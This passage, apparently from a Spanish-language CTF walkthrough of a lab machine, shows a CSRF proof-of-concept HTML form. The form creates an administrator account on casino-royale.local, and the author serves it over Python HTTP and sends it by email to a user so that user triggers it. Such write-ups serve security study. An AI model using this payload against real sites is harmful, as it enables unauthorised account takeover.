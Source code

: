 ```bash
      <input type="hidden" name="confirmPassword" value="PASSWORD" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```

Modificamos la plantilla de la siguiente forma

```bash
❯ cat test.html
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: test.html
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ <html>
   2   │   <body>
   3   │     <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
   4   │       <input type="hidden" name="emailAddress" value="yorch@yorch.com" />
   5   │       <input type="hidden" name="verifiedEmail" value="verified" />
   6   │       <input type="hidden" name="username" value="yorch" />
   7   │       <input type="hidden" name="newPassword" value="yorch123" />
   8   │       <input type="hidden" name="confirmPassword" value="yorch123" />
   9   │       <input type="hidden" name="userGroups[]" value="34" />
  10   │       <input type="hidden" name="userGroups[]" value="33" />
  11   │       <input type="hidden" name="memo" value="CSRFmemo" />
  12   │       <input type="hidden" name="status" value="1" />
  13   │       <input type="hidden" name="formAction" value="submit" />
  14   │       <input type="submit" value="Submit form" />
  15   │     </form>
  16   │   </body>
  17   │ </html>
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Servimos la plantilla con un servidor HTTP con Python y nuevamente enviamos un correo a valenka
